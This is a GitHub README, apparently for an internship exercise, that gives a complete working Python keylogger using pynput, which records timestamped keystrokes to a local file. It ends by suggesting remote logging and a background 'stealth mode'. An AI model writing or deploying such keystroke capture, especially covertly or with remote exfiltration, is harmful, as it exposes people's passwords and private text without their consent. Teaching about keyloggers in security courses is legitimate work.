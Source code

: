 # ProdigyInfoTech_keylogger
## 📖 Introduction
A keylogger is a tool that records keystrokes made by a user on a system. This project demonstrates a simple **Python-based keylogger** using the `pynput` library. The recorded keystrokes are stored in a log file (`keylog.txt`) for monitoring purposes.

### Use Cases:
- Ethical hacking & cybersecurity learning  
- Debugging & monitoring personal keystrokes  
- Educational purposes in security awareness
## Installation & Setup
###  Install Python & Virtual Environment
Ensure you have **Python 3.10+** installed.

# Create a virtual environment
python3 -m venv myenv

# Activate the virtual environment
source myenv/bin/activate  # On Linux/macOS
myenv\Scripts\activate  # On Windows

# Install required libraries
pip install pynput
![image](https://github.com/user-attachments/assets/985d21f4-6811-4a5f-a4d7-00eeb730399c)

## Create the Keylogger Script
Create a file named keylogger.py and add the following code:
from pynput.keyboard import Listener, Key
import logging

logging.basicConfig(filename="keylog.txt", level=logging.DEBUG, format="%(asctime)s - %(message)s")

def on_press(key):
    try:
        logging.info(f"Key pressed: {key.char}")
    except AttributeError:
        logging.info(f"Special key pressed: {key}")

def on_release(key):
    if key == Key.esc:
        return False

with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()

![image](https://github.com/user-attachments/assets/9ea83ec2-c5e7-4b6e-8e3d-a148e8dba70b)

## Run the script in the terminal:
python keylogger.py
The keylogger will start capturing keystrokes and saving them in keylog.txt.

## Result 
![image](https://github.com/user-attachments/assets/39e83ade-a846-4da1-8162-5ed55471102a)

## Recommendations
- Use this script ethically: Do not deploy it without explicit permission.
- Enhance security: Implement encryption for log files to prevent unauthorized access.
- Add remote logging: Send logs to a remote server for real-time monitoring.
- Use stealth mode (optional): Modify the script to run in the background.
